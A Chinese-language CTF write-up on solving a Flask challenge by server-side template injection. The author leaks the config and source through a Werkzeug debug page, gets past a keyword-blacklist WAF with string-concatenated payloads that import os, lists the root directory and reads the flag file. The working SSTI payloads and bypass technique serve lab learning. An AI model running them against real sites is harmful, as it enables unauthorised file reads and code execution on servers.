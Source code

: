 ![[Pasted image 20221221165258.png|500]]

---
首页长这样

![[Pasted image 20221221165318.png|700]]


```
/decode
```

![[Pasted image 20221221165420.png|700]]

```
/hint
```

![[Pasted image 20221221165508.png|300]]

---
先是扫目录，无果

编码页面无计可施，尝试在解码页面制造错误

尝试对`123`进行解码

跳转到了`Werkzeug`的调试页面

![[Pasted image 20221221165800.png]]

获取到了部分源码

大体上是`flask`的`SSTI`

![[Pasted image 20221221170818.png|300]]

![[Pasted image 20221221171012.png]]

```python
{{config}}
```
> 结果 ： &lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: True, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;s_e_c_r_e_t_k_e_y&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(days=31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(seconds=43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;BOOTSTRAP_USE_MINIFIED&#39;: True, &#39;BOOTSTRAP_CDN_FORCE_SSL&#39;: False, &#39;BOOTSTRAP_QUERYSTRING_REVVING&#39;: True, &#39;BOOTSTRAP_SERVE_LOCAL&#39;: False, &#39;BOOTSTRAP_LOCAL_SUBDOMAIN&#39;: None}&gt;

emmm，`secret_key`看着没什么用，似乎没有什么有价值的信息

---
`url_for`可以使用，直接套出源码先
```python
{{url_for.__globals__['__builtins__']['open']('app.py','r').read()}}
```
> 结果 ： from flask import Flask,render_template_string from flask import render_template,request,flash,redirect,url_for from flask_wtf import FlaskForm from wtforms import StringField, SubmitField from wtforms.validators import DataRequired from flask_bootstrap import Bootstrap import base64 app = Flask(\_\_name\_\_) app.config\[&#39;SECRET_KEY&#39;\] = &#39;s_e_c_r_e_t_k_e_y&#39; bootstrap = Bootstrap(app) class NameForm(FlaskForm): text = StringField(&#39;BASE64加密&#39;,validators= \[DataRequired()\]) submit = SubmitField(&#39;提交&#39;) class NameForm1(FlaskForm): text = StringField(&#39;BASE64解密&#39;,validators= \[DataRequired()\]) submit = SubmitField(&#39;提交&#39;) def waf(str): black_list = \[&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;, &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;\*&#34;,&#34;?&#34;\] for x in black_list : if x in str.lower() : return 1 @app.route(&#39;/hint&#39;,methods=\[&#39;GET&#39;\]) def hint(): txt = &#34;失败乃成功之母！！&#34; return render_template(&#34;hint.html&#34;,txt = txt) @app.route(&#39;/&#39;,methods=\[&#39;POST&#39;,&#39;GET&#39;\]) def encode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64encode(text.encode()) tmp = &#34;结果 :{0}&#34;.format(str(text_decode.decode())) res = render_template_string(tmp) flash(tmp) return redirect(url_for(&#39;encode&#39;)) else : text = &#34;&#34; form = NameForm(text) return render_template(&#34;index.html&#34;,form = form ,method = &#34;加密&#34; ,img = &#34;flask.png&#34;) @app.route(&#39;/decode&#39;,methods=\[&#39;POST&#39;,&#39;GET&#39;\]) def decode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64decode(text.encode()) tmp = &#34;结果 ： {0}&#34;.format(text_decode.decode()) if waf(tmp) : flash(&#34;no no no !!&#34;) return redirect(url_for(&#39;decode&#39;)) res = render_template_string(tmp) flash( res ) return redirect(url_for(&#39;decode&#39;)) else : text = &#34;&#34; form = NameForm1(text) return render_template(&#34;index.html&#34;,form = form, method = &#34;解密&#34; , img = &#34;flask1.png&#34;) @app.route(&#39;/&lt;name&gt;&#39;,methods=\[&#39;GET&#39;\]) def not_found(name): return render_template(&#34;404.html&#34;,name = name) if \_\_name\_\_ == &#39;\_\_main\_\_&#39;: app.run(host=&#34;0.0.0.0&#34;, port=5000, debug=True)

```python
def waf(str):
	black_list = ["flag","os","system","popen","import","eval","chr","request", "subprocess","commands","socket","hex","base64","*","?"]
	for x in black_list:
		if x in str.lower():
			return 1
```

`waf`是直接的字符串匹配

直接拼接绕过

```python
{{url_for.__globals__['__builtins__']['__im'+'port__']('o'+'s').listdir('/')}}
```
>[&#39;bin&#39;, &#39;boot&#39;, &#39;dev&#39;, &#39;etc&#39;, &#39;home&#39;, &#39;lib&#39;, &#39;lib64&#39;, &#39;media&#39;, &#39;mnt&#39;, &#39;opt&#39;, &#39;proc&#39;, &#39;root&#39;, &#39;run&#39;, &#39;sbin&#39;, &#39;srv&#39;, &#39;sys&#39;, &#39;tmp&#39;, &#39;usr&#39;, &#39;var&#39;, &#39;this_is_the_flag.txt&#39;, &#39;.dockerenv&#39;, &#39;app&#39;\]

```python
{{url_for.__globals__['__builtins__']['open']('/this_is_the_fl'+'ag.txt','r').read()}}
```

![[Pasted image 20221221194819.png]]

#Web #python #flask #SSTI #函数 #代码审计 